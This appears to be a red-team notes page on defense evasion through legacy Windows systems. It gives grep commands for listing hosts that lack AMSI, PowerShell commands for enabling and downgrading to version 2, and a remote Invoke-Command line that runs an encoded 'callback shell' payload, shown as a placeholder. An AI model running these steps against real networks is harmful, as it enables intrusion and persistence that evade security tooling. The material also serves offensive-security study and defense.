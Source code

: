 # Description

The best defense evasion which is the most efficient way is to find legacy operating systems to lay a low profile in the network traffic to establish persistence to maintain access. Especially these legacy systems do not contain up-to-date security solutions. The main benefit is it is not required to re-implement the implant. It is easier to laterally pivot the machines with little effort.

## 01 - Windows Systems Table List

| Operating System       | Installed PowerShell version | Supported PowerShell Version |
| ---------------------- | ---------------------------- | ---------------------------- |
| Windows 7              | 2.0                          | 2.0, 3.0, 4.0, 5.0, 5.1      |
| Windows Server 2008 R2 | 2.0 (*\*)                    | 2.0, 3.0, 4.0, 5.0, 5.1      |
| Windows 8              | 3.0                          | 2.0, 3.0                     |
| Windows Server 2012    | 3.0                          | 2.0, 3.0, 4.0                |
| Windows 8.1            | 4.0                          | 2.0, 4.0, 5.0, 5.1           |
| Windows Server 2012 R2 | 4.0                          | 2.0, 4.0, 5.0, 5.1           |
| Windows 10             | 5.1                          | 2.0                          |
| Windows Server 2016    | 5.1                          | 2.0                          |

## 02 - Lack of AMSI Scanner

### 2.1 - Windows Servers

- Windows Server 2003

```
$ grep 'Windows Server 2003' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2003-output.txt
```

- Windows Server 2008 R2

```
$ grep 'Windows Server 2008' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2008-output.txt
```

- Windows Server 2012

```
$ grep 'Windows Server 2012' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2012-output.txt
```

### 2.2 - Windows Workstations

- Windows XP

```
$ grep 'Windows XP' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-xp-output.txt
```

- Windows 7

```
$ grep 'Windows 7' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-7-output.txt
```

## 03 - Downgrade PowerShell

### 3.1 - Enumerate PowerShell Version 2

```
PS C:\> $PSVersionTable

PS C:\> Get-WindowsFeature PowerShell-V2

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-WindowsFeature PowerShell-V2 }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { $PSVersionTable }
```

### 3.2 - Install PowerShell Version 2

> [!INFO] Elevated Privileges is Required
> You must run this as administrator to install PowerShell version 2.

```
PS C:\> Enable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2

PS C:\> Enable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
```

### 3.3 - Execute Callback Shell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { powershell -version 2 -e <base64_payload> }
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Active Directory/0xB - Domain Controller/DC/Manual/Living off the Land|Living off the Land: Domain Controller]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Active Directory/0xC - Domain Computers/Offensive Tools/Scripts|PowerSploit: Active Directory Networking]]